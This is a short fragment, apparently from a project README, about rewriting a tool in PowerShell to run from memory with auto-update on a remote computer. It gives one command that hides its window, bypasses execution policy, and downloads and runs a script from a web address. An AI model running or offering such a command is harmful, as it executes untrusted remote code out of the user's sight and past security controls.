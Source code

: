 attempt to rewrite in powershell to allow running from memory for more efficiency and auto update if using the below command on the remote computer (that you own or have permission to use this on!)

powershell -W Hidden -EP Bypass -C "IEX (IWR 'https://example.com/harmony.ps1' -UseBasicParsing);exit"
